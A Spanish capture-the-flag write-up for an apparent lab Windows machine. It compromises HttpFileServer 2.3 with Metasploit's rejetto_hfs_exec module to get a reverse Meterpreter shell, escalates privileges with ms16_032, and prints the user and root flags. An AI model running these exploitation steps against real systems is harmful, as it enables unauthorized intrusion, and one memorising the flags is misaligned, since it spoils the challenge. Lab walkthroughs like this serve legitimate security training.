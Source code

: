 
![[20250721114950.png]]

# Fase de reconocimiento


primero vamos a lanzar un escaneo de puertos sencillo con nmap 

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.129.180.214 -oG allPorts
```

una vez tenemos los puertos abiertos realizamos un segundo escaneo de nmap. En este caso lanzando scripts básicos para saber el servicio y la versión que corren por detras de cada puerto

```bash
nmap -p80 -sCV 10.129.180.214 -oN targeted
```

![[20250722094155.png]]

Aqui vemos el puerto 80 con servicio http y versión HttpFileServer httpd 2.3

# Metasploit 

abrimos la consola de metasploit

```bash
msfdb run
```

buscamos exploits derivados del servicio HttpFileServer

```bash
search HttpFileServer
```

![[20250722094422.png]]
Os dejo por aqui el exploit
```bash
exploit/windows/http/rejetto_hfs_exec
```

podemos activarlo poniendo 

```bash
use 0
```

ya que es el Id del exploit en la busqueda o

```bash
use exploit/windows/http/rejetto_hfs_exec
```

de esta forma llamamos directamente al exploit

en las opciones que veremos con el comando `options`

debemos cambiar los siguientes parámetros:

- RHOSTS - IP VICTIMA
- LHOST - NUESTRA IP
- LPORT - EL PUERTO QUE RECIBIRA LA SHELL EN NUESTRO EQUIPO 
		-(cambiar este parámetro es opcional pero hay veces que el puerto 4444 esta bloqueado en la ip victima por que es el que usa por defecto metasploit por lo que en ocasiones es recomendable cambiarlo)

>Para cambiar un parámetro usaremos siempre el comando

```bash
set PARAMETRO DATA
```

Por ejemplo:

```bash
set RHOSTS 10.129.180.214
```

una vez hemos cambiado todos los parámetros necesarios lanzamos el exploit

```bash
exploit
```

![[20250722095036.png]]

recibiremos una shell como meterpreter pero como empieza a ser costumbre ya no tendremos acceso a la carpeta administrador ni a muchas partes del sistema por lo que debemos conseguir esa escalada de privilegios

# Escalada de privilegios

lanzaremos este código que hará un escáner de vulnerabilidades interno en la maquina victima

```bash
run post/multi/recon/local_exploit_suggester
```

![[20250722095308.png]]

aqui nos recomendara varios exploits para realizar la escalada

ahora dejaremos la terminal de meterpreter suspendida para reutilizarla con el nuevo exploit

```bash
background
```

en mi caso utilizare el exploit:
> exploit/windows/local/ms16_032_secondary_logon_handle_privesc

```bash
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```

una vez activo volvemos a poner el comando `options`  para ver que parámetros podemos cambiar, en este caso:

- SESSION - El NUMERO DE SESION DE METERPRETER QUE TENEMOS SUSPENDIDA 
	- podemos ver las sesiones poniendo el comando `sessions` (si habéis seguido los pasos del writeup será la 1) 
- LHOSTS - NUESTRA IP
- LPORT - PUERTO DONDE RECIBIREMOS LA SHELL

y lanzamos el exploit 

```bash
exploit
```

![[20250722095833.png]]

obtenemos la shell como meterpreter y ahora si con total privilegio

# Flags

## user

la flag se encuentra en el directorio: C:\Users\kostas\Desktop

![[20250722095957.png]]

user: 4ba9776b13b088debe39c37a2921a97e

## root

la flag se encuentra en el directorio: C:\Users\Administrator\Desktop

![[20250722100055.png]]

root: 828d9f5bc4d29e410f6425e17a9a2693